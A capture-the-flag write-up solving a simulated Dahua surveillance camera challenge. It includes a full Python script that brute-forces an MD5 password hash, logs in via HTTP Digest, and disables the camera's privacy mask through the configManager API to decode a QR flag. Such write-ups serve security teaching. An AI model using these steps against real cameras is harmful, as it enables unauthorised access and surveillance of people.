



# Operation (DroneOps PTZ Camera)

**BSides Vilnius 2026** · Web · Medium

## Solution Overview

A leaked "technician pack" exposes a Dahua PTZ surveillance camera. I cracked the camera password from an MD5 "verification value", logged in over HTTP Digest, and recovered a QR-coded marker that was hidden behind a privacy mask **and** obscured by night-vision grain. The mask comes off via the config API, and the random per-frame IR noise is defeated by **averaging many snapshots** of a fixed PTZ preset — no need to wait for the time-gated "color mode". The denoised QR decodes to the flag.

## Tools Used

- Python 3 (`requests` with HTTP Digest auth, `numpy`, `opencv`, `Pillow`, `pyzbar`)
- The Dahua HTTP API (`snapshot.cgi`, `ptz.cgi`, `configManager.cgi`)
- An English wordlist for the MD5 crack

## Artifacts

- [`challenge/site_installation_notes.md`](challenge/site_installation_notes.md) — camera model, address, and the "night vision flickers" hint
- [`challenge/incident_report_882_chat.md`](challenge/incident_report_882_chat.md) — the operator chat that leaks the MD5 verification value and the three obstacles

*(The full `technician_pack.zip` also bundled the public [Dahua HTTP API V2.84](https://www.dahuasecurity.com/) reference PDF, omitted here for size.)*

## Recon

`technician_pack.zip` contained three useful files:

- `site_installation_notes.md` — camera `Dahua SD49225XA-HNR` at `95.217.7.4:8080`, `admin` disabled, with a note that "night vision draws heavy load, might flicker if battery low".
- `incident_report_882_chat.md` — the operational hints that basically *are* the solution path:
    - Password "verification value": `1f00e9760053c2541d7cebf843a9a73a`, policy = *dictionary word + year, or + two digits*.
    - The master GCP marker is near the south fence and **blocked by a privacy mask**.
    - Auth has "short-term memory loss" → you **must persist a single connection** (PTZ state is per-connection).
    - The marker is only readable once the **night grain clears** ("color mode finally up").
- `Dahua_HTTP_API_V2.84.pdf` — the HTTP API reference.

## Solution

### Step 1: Crack the password, find the user

The "verification value" is just a plain `MD5(password)`. The chat told me the policy (`word + year` / `word + two digits`), so brute-forcing that pattern against an English wordlist was quick — it resolved to `solar99`. HTTP Digest auth then succeeded not as the disabled `admin`, but as user **`dave`**.

### Step 2: Three obstacles, three fixes — on one connection

**First thought:** "The chat lists exactly three blockers, so this is really three small problems stacked on the same session." The 'short-term memory loss' line was the key constraint: PTZ position and auth state live per-TCP-connection, so everything has to ride one keep-alive `requests.Session`.


*The default view: random per-frame IR "night grain" buries everything — a single snapshot is unreadable.*

1. **Persistent connection** — a single session, so `GotoPreset` and `snapshot` share the same TCP connection and the camera doesn't "forget" where it's pointing.
2. **Find the masked preset** — sweep all ~400 presets; the privacy mask renders as an anomalous dark/flat rectangle. It sits at **preset 283** (helpfully labelled "PRIVACY MASK ACTIVE").
3. **Remove mask + denoise** — disable the mask via `configManager.cgi?action=setConfig&PrivacyMasking[0][0].Enable=false`, then average ~80 frames at preset 283. The IR "grain" is *random per frame*, so averaging cancels it out and produces a clean image — sidestepping the wall-clock "color mode" gate entirely. The clean QR decodes to the flag.


*Preset 283: the Master GCP marker sits behind a privacy mask (the flat grey rectangle labelled "PRIVACY MASK ACTIVE").*

```python
#!/usr/bin/env python3
# Full solve: technician_pack.zip -> flag
import io, hashlib, zipfile, requests
import numpy as np, cv2
from PIL import Image
from requests.auth import HTTPDigestAuth
from pyzbar.pyzbar import decode

BASE = "http://95.217.7.4:8080"
VERIFICATION = "1f00e9760053c2541d7cebf843a9a73a"   # from incident_report_882_chat.md

# --- 1. Crack MD5(password): dictionary word + year OR + two digits ---
words = [w.strip() for w in open("words.txt") if w.strip()]   # any English wordlist
suffixes = [str(y) for y in range(1990, 2027)] + ["%02d" % i for i in range(100)]
password = next(
    cand
    for w in words for base in {w, w.capitalize(), w.upper()} for s in suffixes
    if hashlib.md5((cand := base + s).encode()).hexdigest() == VERIFICATION
)
print("[+] password:", password)            # -> solar99

# --- 2. Persistent Digest session (auth has "short-term memory loss") ---
s = requests.Session()
s.headers["Connection"] = "keep-alive"
s.auth = HTTPDigestAuth("dave", password)   # admin is disabled; guard 'dave'
assert s.get(f"{BASE}/cgi-bin/magicBox.cgi?action=getSystemInfo", timeout=15).ok

def goto(n):
    s.get(f"{BASE}/cgi-bin/ptz.cgi?action=start&channel=0"
          f"&code=GotoPreset&arg1=0&arg2={n}&arg3=0", timeout=15)

def frame():
    r = s.get(f"{BASE}/cgi-bin/snapshot.cgi", timeout=25)
    return np.asarray(Image.open(io.BytesIO(r.content)).convert("L"), float)

# --- 3. Locate masked preset (anomalous dark region) ---
s.get(f"{BASE}/cgi-bin/configManager.cgi?action=setConfig"
      f"&PrivacyMasking[0][0].Enable=true", timeout=15)
def avg(n, N=25):
    goto(n)
    return sum(frame() for _ in range(N)) / N
masked = max(range(1, 421), key=lambda n: (avg(n, 12) < 80).mean())   # -> 283
print("[+] masked preset:", masked)

# --- 4. Disable mask, denoise by averaging, decode QR ---
goto(masked)
s.get(f"{BASE}/cgi-bin/configManager.cgi?action=setConfig"
      f"&PrivacyMasking[0][0].Enable=false", timeout=15)
clean = avg(masked, 80).astype("uint8")
img = Image.fromarray(clean)

# auto-crop the bright sign, upscale, decode
_, th = cv2.threshold(clean, 180, 255, cv2.THRESH_BINARY)
cnts, _ = cv2.findContours(th, cv2.RETR_EXTERNAL, cv2.CHAIN_APPROX_SIMPLE)
x, y, w, h = sorted((cv2.boundingRect(c) for c in cnts if cv2.boundingRect(c)[2] < 400),
                    key=lambda b: -b[2] * b[3])[0]
crop = img.crop((x - 20, y - 20, x + w + 20, y + h + 20)).resize(((w + 40) * 5, (h + 40) * 5))
print("[+] FLAG:", decode(crop)[0].data.decode())
```

```text
[+] password: solar99
[+] masked preset: 283
[+] FLAG: BSIDES{DO_n0t_ch3ck_pre5et_999}
```


*Mask off + ~80 frames averaged: the grain cancels and the QR marker on the sign becomes sharp enough to decode.*

The flag is a wink at the intended trap: the masked Master GCP marker is at preset **283**, not the tempting "preset 999".

## Flag

```
BSIDES{DO_n0t_ch3ck_pre5et_999}
```

---

[← Back to BSides Vilnius 2026](../../README.md)
